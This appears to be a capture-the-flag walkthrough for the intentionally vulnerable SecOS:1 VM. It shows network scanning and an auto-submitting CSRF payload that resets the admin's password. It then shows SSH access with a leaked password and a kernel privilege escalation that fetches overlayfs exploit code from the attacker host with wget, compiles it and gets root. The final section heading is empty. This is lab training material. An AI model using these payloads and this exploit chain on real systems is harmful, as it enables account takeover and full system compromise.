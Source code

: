 # SECOS: 1

## Get VM IP :

```bash
root@kali: nmap -sn 192.168.127.0/24

Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-09 04:16 EDT
Nmap scan report for 192.168.127.1
Host is up (0.00061s latency).
MAC Address: 00:50:56:C0:00:01 (VMware)
Nmap scan report for 192.168.127.137
Host is up (0.00040s latency).
MAC Address: 00:0C:29:4B:BB:8D (VMware)
Nmap scan report for 192.168.127.254
Host is up (0.00025s latency).
MAC Address: 00:50:56:F4:78:0D (VMware)
Nmap scan report for 192.168.127.128
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 15.58 seconds
```

The IP address is `192.168.127.137`, let's enumerate it.

## Enumeration

```bash
root@kali: nmap -sV -sC 192.168.127.137 -oN fulscan

Nmap scan report for 192.168.127.137
Host is up (0.0017s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6p1 Ubuntu 2ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 9b:d9:32:f5:1d:19:88:d3:e7:af:f0:4e:21:76:7a:c8 (DSA)
|   2048 90:b0:3d:99:ed:5b:1b:e1:d4:e6:b5:dd:e9:70:89:f5 (RSA)
|   256 78:2a:d9:e3:63:83:24:dc:2a:d4:f6:4a:ac:2c:70:5a (ECDSA)
|_  256 a1:77:7b:f2:31:0b:81:ce:f2:09:47:06:e6:b0:80:fa (ED25519)
8081/tcp open  http    Node.js (Express middleware)
|_http-title: Secure Web App
MAC Address: 00:0C:29:4B:BB:8D (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ports `22` and `8081` is open, so lets begin navigating the site.

in the first page we see a message and menue above :

![mainpage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/42697f15-e96d-47f2-921d-062fa3897420)

fuzzing and directory brute forcing leads to nothing interesting except `/hint` directory which shows some hints :

![hint](https://github.com/Git-K3rnel/VulnHub/assets/127470407/8400e744-51ef-4248-838f-4c6611211d41)

it is abvious that :
- admin will run the service locally on 127.0.0.1
- it says CSRF meaning we should look for it
- and the regex is for finding URL

gathering the above information we begin our work.

i signed up for an account : `myacc:123`

three new functionality appears after loggin in :

![afterlogin](https://github.com/Git-K3rnel/VulnHub/assets/127470407/5a75cc52-f54e-4473-995e-d0106d3b9ffc)

if we check the `change password` we clearly see that is it vulnerable to CSRF attack because it meets 3 conditions :

- it is state changing
- it uses cookie for sessions
- it has no protection like CSRF token

keep it in mind we explore the `Messages` and `send message` functionality which we can send message to other users

and other users are listed in `users` menu :

![users](https://github.com/Git-K3rnel/VulnHub/assets/127470407/94484819-71ec-4ec1-82de-8f7342272aa3)

we see that user `spiderman` is administrator so we should some how try to reach his account.

## Gaining Shell

since we have CSRF vulnerability and can send message to spiderman we create a CSRF POC and send a link to spiderman (remember that admin will run service locally)

```html
<html>
  <body>
    <form action="http://127.0.0.1:8081/change-password" method="POST">
      <input type="hidden" name="password" value="123" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

put the aboove code in `visit.html` file and host it with python webserver :

```bash
root@kali: python -m http.server 80
```

send the link in message to spiderman : 

![sendmessage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/3155e9d5-b513-4e9c-9eaa-520166e05c8f)

after sending message and waiting afew seconds we expect that spiderman password would change to `123` :

```bash
root@kali: python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.127.137 - - [09/Sep/2023 05:23:01] "GET /visit.html HTTP/1.1" 200 -
```
yes we got a request it means spiderman should have our provided password.

we logout with out account and login with spiderman and password 123 and navigate to messages menu :

![spidermessage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/05b17044-239b-4c20-8f31-ef5f9222da8b)

we see here our message and `pirate` user message that mentions the spiderman password -> `CrazyPassword!`

all we need now is to SSH to machine with `spiderman:CrazyPassword!` :

![ssh](https://github.com/Git-K3rnel/VulnHub/assets/127470407/e3053b96-eb19-4413-8f95-581d215c798a)

## Privilege Escalation Method 1

if we check the linux kernel version we see the information below :

```bash
spiderman@SecOS-1:~$ uname -a
Linux SecOS-1 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:08:14 UTC 2014 i686 i686 i686 GNU/Linux

spiderman@SecOS-1:~$ cat /etc/os-release 
NAME="Ubuntu"
VERSION="14.04, Trusty Tahr"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 14.04 LTS"
VERSION_ID="14.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
```

we use `searchsploit` to find any kernel exploit for this version :

```bash
root@kali: searchsploit kernel 3.13
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation   | linux/local/37292.c
```

our version meets exactly with this exploit we download this exploit and upload it on the victim on `/tmp` directory

compile it on victim :

```bash
spiderman@SecOS-1:~$ cd /tmp
spiderman@SecOS-1:/tmp$ wget http://192.168.127.128/exp.c
Connecting to 192.168.127.128:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4968 (4.9K) [text/x-csrc]
Saving to: ‘exp.c’

100%[===============================================================================================>] 4,968       11.6KB/s   in 0.4s   

2023-09-09 15:02:58 (11.6 KB/s) - ‘exp.c’ saved [4968/4968]

spiderman@SecOS-1:/tmp~$ gcc exp.c
spiderman@SecOS-1:/tmp$ ls
a.out  exp.c  mongodb-27017.sock
spiderman@SecOS-1:/tmp$ ./a.out 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),1001(spiderman)
```

yes, we got root here and can look at `/root/flag.txt` directory :

```bash
# cat /root/flag.txt
Hey,

Congrats, you did it ! 

The flag for this first (VM) is: MickeyMustNotDie.
Keep this flag because it will be needed for the next VM.

If you liked the Web application, the code is available on Github. 
(https://github.com/PaulSec/VNWA)

There should be more VMs to come in the next few weeks/months.

Twitter: @PaulWebSec
GitHub : PaulSec
```

## Privilege Escalation Method 2




